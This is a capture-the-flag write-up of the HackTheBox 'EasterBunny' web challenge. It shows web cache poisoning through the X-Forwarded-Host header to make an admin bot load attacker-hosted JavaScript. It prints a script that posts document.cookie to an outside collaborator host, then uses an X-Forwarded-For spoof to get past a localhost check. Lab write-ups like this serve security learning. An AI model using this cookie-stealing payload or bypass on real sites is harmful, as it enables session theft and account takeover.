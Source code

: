 ```yaml
---
layout: single
title:  EasterBunny
date:  2022-08-28
desc: "It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching!"
category: "Web"
---
```


It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching! <br>

<h4 align="center">
<img src="https://user-images.githubusercontent.com/45040001/187103435-e7a41ec1-67d8-491a-9572-a340b96f265e.png">
</h4>


The EasterBunny is a easy challenge from hackthebox where you can learn a lot from it. Lets explain little bit the steps but with words, the first step is to identify web cache poisoning vulnerability and follow [web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning) methodology.
<br>
<br>
Let's start where the flag is stored.. The flag is stored at the 3rd letter which if you are not an admin you can't see and you will get an error message. Our steps is to be authenticated like a admin and get the flag.

## WCP Methodology
![image](https://user-images.githubusercontent.com/45040001/187235119-7f8f04e9-1a0e-4899-b623-109aae0d0ceb.png)

### Detect unkeyed input
We can detect & inject into cache a random string just using `X-Forwarded-Host` HTTP Header. Using this header we can perform a xss attack to steal some cookies from the user in our situation from `bot.js`.<br>
![detect_unkeyd_input](https://user-images.githubusercontent.com/45040001/187235463-af6684d1-b75f-422d-b08f-7515db78026a.png)
<br>
So we can see our unkeyed input injects 3 attributes and they are:
- /static/main.css
- `<base href="unkeyed input:port/static" />`
- /static/viewletter.js

When you see a javascript file like the `viewletter.js` immediately you think how you can perform a xss attack right?

![unkeyd_input](https://user-images.githubusercontent.com/45040001/187235510-121c99c8-0160-463d-b4e2-c95af06b362a.png)

![viewletter_javascript](https://user-images.githubusercontent.com/45040001/187235528-15b5cbc5-faea-4430-bef9-f7891538de51.png)

## Get prepared for the attack
For exploitation part first of all we need a HTTP server(free solution ngrok) and create a directory tree like that: <br>
![187313837-93762db5-ebfc-4c99-9f69-132ce594b72c](https://user-images.githubusercontent.com/45040001/188494846-ad18b497-7d7c-4180-b1be-06d2092d45ea.png)
<br>
And the most important our malicious `viewletter.js` hosted in our http server where with this script we can steal the auth token and get the flag.
```javascript
//viewletter.js
fetch('http://4w1j76r5ydqthsa2yt357tr45vbmzb.burpcollaborator.net/', {
		    method: 'POST',
		    body: document.cookie
		    });
```
The challenge source code has a file called `authorisation.js` where somebody can see how `admin`  authorization works.<br>
So if someone wants to be authenticated like a admin he must be from localhost and he must know the `authSecret` which is a random value.
```javascript
const authSecret = require('crypto').randomBytes(69).toString('hex');

const isAdmin = (req, res) => {
  return req.ip === '127.0.0.1' && req.cookies['auth'] === authSecret;
};

module.exports = {
  authSecret,
  isAdmin,
};
```
So far so good.. But how will get the `authSecret` from admin? we should steal the cookies from him(or from `bot.js`)
```javascript
//part from bot.js
await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });
```

Now lets take a look how the bot visiting works. At source code of `routes.js` in the `/submit` route we can see the bot visit the last inserted letter but with a little bit different host, pay attention at `127.0.0.1`
```javascript
//part of routes.js
botVisiting = true;
await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
botVisiting = false;
```

## Attack

So we retreive a lot of informations and they are:
- we find unkeyed inputs for web cache poisoning attack
- we have to poison the last inserted id(last submited letter)
- we have to steal the `authtoken`
- and grab the flag

First step is to setup our HTTP server with all files & directories included
![tt](https://user-images.githubusercontent.com/45040001/188495101-735dd790-a852-48a2-ad49-ec277bba5999.png)

<br>

Right now we are ready to start the whole attack step by step. Fist of all we need to know how many letters are saved in database to inject the last letter `/letters?id=${inserted.lastID}` to find how many letters are seved we can send just a GET requests at `/message/3` and you will get a response with the message of the letter and the counters of the letters. 

So at my situation the last letter is 16 so i have to inject the 17 letter. <br>
Inject values is:
- GET /letters?id=17
- HOST: 127.0.0.1 | because of this piece of code `await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);`
- X-Forwarded-Host: your-ngrok-ip.com

![web_poisoning](https://user-images.githubusercontent.com/45040001/187318535-9fc0269b-fac7-46a6-bbf9-3f048cedcd05.png)

Send the injection requests and instantly we have to submit a new letter and this letter will be injected .
![submit_new_letter](https://user-images.githubusercontent.com/45040001/187318584-250a390e-745c-4d8f-b3e1-7f5560ca3c8c.png)


after a few seconds we will successfully get the admin secret(authtoken) in our burpcollaborator.
![auth_cookie](https://user-images.githubusercontent.com/45040001/187318627-f3192d7b-3d86-4010-8e6e-0c298ca62a65.png)

The next step is to bypass localhost restriction and i do that with `X-Fowarded-For` HTTP Header as i show below.

![get_flag_1](https://user-images.githubusercontent.com/45040001/187318708-ded902f8-0e25-4926-897e-8b185b125da4.png)

[ip bypass headers](https://gist.githubusercontent.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1/raw/339dad3040fd1a967588edf341eb72b033a9d9fe/gistfile1.txt) <br>

![get_flag_2](https://user-images.githubusercontent.com/45040001/187318715-5c3adc65-87fd-4c8f-ba4f-b9ee3676de8b.png)

![correct_payload](https://user-images.githubusercontent.com/45040001/187318812-fb0b7c39-bb01-4797-8f2d-690a260b33d3.png)

grab the flag. <br>
![final_flag](https://user-images.githubusercontent.com/45040001/187318733-85d968a5-fe2a-43b5-b121-949d8528c19f.png)



